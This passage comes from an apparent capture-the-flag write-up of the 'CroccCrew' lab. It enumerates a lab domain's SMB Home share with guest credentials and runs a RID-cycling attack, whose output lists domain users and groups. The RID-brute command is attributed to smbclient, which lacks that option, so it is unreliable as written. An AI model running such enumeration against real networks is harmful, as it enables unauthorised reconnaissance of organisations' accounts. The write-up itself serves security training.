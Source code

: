 ![image.png](/assets/images/CroccCrew_THM/image%2015.png)

We have READ permissions on the HOME share.

Lets try to enumerate this using smbclient.

```bash
smbclient //cooctus.corp/Home -U 'Visitor'%'GuestLogin!'
```

![image.png](/assets/images/CroccCrew_THM/image%2016.png)

Downloading the user.txt file and submitting it.

Now lets do a RID Cycling attack and find all the machine and user accounts on the domain and overwrite our usernames.txt with it.

```bash
smbclient //cooctus.corp/Home -U 'Visitor'%'GuestLogin!' --rid-brute
```

The results are:

```text
SMB                      10.201.26.169   445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:COOCTUS.CORP) (signing:True) (SMBv1:False)
SMB                      10.201.26.169   445    DC               [+] COOCTUS.CORP\Visitor:GuestLogin! 
SMB                      10.201.26.169   445    DC               498: COOCTUS\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB                      10.201.26.169   445    DC               500: COOCTUS\Administrator (SidTypeUser)
SMB                      10.201.26.169   445    DC               501: COOCTUS\Guest (SidTypeUser)
SMB                      10.201.26.169   445    DC               502: COOCTUS\krbtgt (SidTypeUser)
SMB                      10.201.26.169   445    DC               512: COOCTUS\Domain Admins (SidTypeGroup)
SMB                      10.201.26.169   445    DC               513: COOCTUS\Domain Users (SidTypeGroup)
SMB                      10.201.26.169   445    DC               514: COOCTUS\Domain Guests (SidTypeGroup)
SMB                      10.201.26.169   445    DC               515: COOCTUS\Domain Computers (SidTypeGroup)
SMB                      10.201.26.169   445    DC               516: COOCTUS\Domain Controllers (SidTypeGroup)
```